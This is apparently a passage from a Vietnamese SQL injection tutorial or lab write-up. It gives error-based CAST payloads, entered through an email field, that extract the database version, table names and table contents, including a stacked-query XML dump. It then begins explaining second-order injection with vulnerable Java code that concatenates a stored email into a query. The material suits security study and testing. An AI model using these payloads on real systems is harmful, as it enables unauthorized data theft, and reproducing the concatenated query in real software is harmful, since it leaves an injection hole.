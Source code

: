##### **Kỹ thuật ép kiểu không hợp lệ (Invalid Cast):**

1. **Lấy phiên bản cơ sở dữ liệu:**
   - Payload:  
     ```sql
     ' and 0=CAST((SELECT VERSION()) AS INT)--@test.com
     ```
   - Lỗi ép kiểu (`CAST`) sẽ tiết lộ phiên bản cơ sở dữ liệu trong thông báo lỗi.

2. **Lấy tên bảng từ `information_schema`:**
   - Payload:  
     ```sql
     ' and 1=CAST((SELECT table_name FROM information_schema.tables LIMIT 1) AS INT)--@test.com
     ```

3. **Lấy tất cả tên bảng với `STRING_AGG`:**
   - Payload:  
     ```sql
     ' and 1=CAST((SELECT STRING_AGG(table_name, ',') FROM information_schema.tables) AS INT)--@test.com
     ```

##### **Dump dữ liệu bằng XML (nếu hỗ trợ stack queries):**

- Payload mẫu để xuất toàn bộ dữ liệu bảng:  
  ```sql
  ';SELECT CAST(CAST(QUERY_TO_XML('SELECT * FROM posts LIMIT 2', TRUE, TRUE, '') AS TEXT) AS INT)--@test.com
  ```

---


# 8. Khai thác SQL Injection bậc hai (Second-Order SQL Injection)

---

#### **1. Giới thiệu:**

- **Second-Order SQL Injection** xảy ra khi dữ liệu từ người dùng được lưu trữ trong cơ sở dữ liệu và sau đó được sử dụng trong một truy vấn SQL không an toàn ở một chức năng khác của ứng dụng.
- Lỗ hổng này khó phát hiện hơn so với SQLi thông thường vì:
  - Phải có hai bước: **lưu dữ liệu độc hại** và **kích hoạt khai thác**.
  - Cần hiểu rõ cách luồng dữ liệu di chuyển qua các phần khác nhau của ứng dụng.

---

#### **2. Phân tích lỗ hổng trong `/profile`:**

1. **Mô tả chức năng:**
   - **Hàm `profile()`** thực hiện hai truy vấn SQL:
     - Truy vấn đầu tiên: Lấy thông tin người dùng dựa trên ID:
       ```java
       sql = "SELECT username, name, description, email, id FROM users WHERE id = ?";
       ```
     - Truy vấn thứ hai: Lấy danh sách bài viết của người dùng dựa trên email:
       ```java
       sql = "SELECT text, to_char(posted_at, 'dd.mm.yyyy, hh:mi') as posted_at_nice, username, name, author_id "
           + "FROM posts JOIN users ON posts.author_id = users.id WHERE email = '" + user.getEmail() + "' ORDER BY posted_at DESC";
       ```
